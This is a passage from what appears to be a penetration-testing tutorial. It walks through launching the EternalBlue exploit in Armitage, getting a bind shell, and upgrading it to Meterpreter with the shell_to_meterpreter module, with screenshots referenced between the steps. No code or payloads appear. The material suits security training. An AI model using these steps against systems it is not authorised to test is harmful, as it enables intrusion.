
After clicking "Launch", you will notice a new "Exploit" tab open up. Armitage will run all of the regular checks that Metasploit normally does. In the case of Eternal Blue, it ran the standard check script followed by the exploit script until it got a successful shell. It's worth noting that by default in this Exploit, it chose a Bind shell. Make sure you fully read the exploit information and options to see if a Bind Shell or a Reverse Shell is an option.

After you receive your shell, right-click on the host and select "Interact". This will open a standard shell you're familiar with. In order to get a Meterpreter shell, we recommend that you run the multi/manage/shell_to_meterpreter module.
